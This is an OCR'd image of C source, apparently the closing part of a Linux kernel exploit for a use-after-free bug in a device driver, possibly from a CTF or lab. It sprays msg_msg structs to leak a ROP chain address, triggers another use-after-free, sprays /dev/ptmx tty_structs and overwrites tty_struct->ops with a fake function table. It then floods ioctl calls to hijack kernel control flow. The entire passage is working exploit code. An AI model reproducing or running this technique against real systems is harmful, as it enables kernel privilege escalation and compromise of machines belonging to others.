 ```c
        for (size_t i = 0; i < MSG_SPRAY; i++) {
            fails += send_message();
        }

        // Check to see if we found a msg_msg struct
        if (found_msg(fd4)) {
            break;
        }
        
        if (q_remain == 0) { err("Failed to find msg_msg struct"); }
    }
    
    // Solve our ROP chain address
    info("`msgsnd()` failures: %lu", fails);
    info("ROP chain address: 0x%lx", rop_addr);
    fake_table = rop_addr + rop_len;
    info("Fake tty_struct->ops function table: 0x%lx", fake_table);
    ioctl_ptr = fake_table + ioctl_off;
    info("Fake ioctl() handler: 0x%lx", ioctl_ptr);

    // Do a 3rd UAF
    info("Freeing fd5...");
    fd5 = open_device(DEV, O_RDWR);
    fd6 = open_device(DEV, O_RDWR);
    close(fd5);

    // Spray more /dev/ptmx terminals
    info("Spraying tty_structs...");
    p_remain = PTMX_SPRAY;
    while(p_remain--) {
        alloc_ptmx();
        printf("    >> tty_struct(s) alloc'd: %lu\n", PTMX_SPRAY - p_remain);

        // Check to see if we found a tty_struct
        if (found_ptmx(fd6)) {
            break;
        }

        if (p_remain == 0) { err("Failed to find tty_struct"); }
    }

    info("Found new tty_struct");
    info("Overwriting tty_struct->ops pointer with fake table...");
    overwrite_ops(fd6);
    info("Overwrote tty_struct->ops");

    // Spam IOCTL on all of our '/dev/ptmx' fds
    info("Spamming `ioctl()`...");
    for (size_t i = 0; i < num_ptmx; i++) {
        ioctl(open_ptmx[i], 0xcafebabe, rop_addr - 8); // pop rbp; ret;
    }

    return 0;
}
```
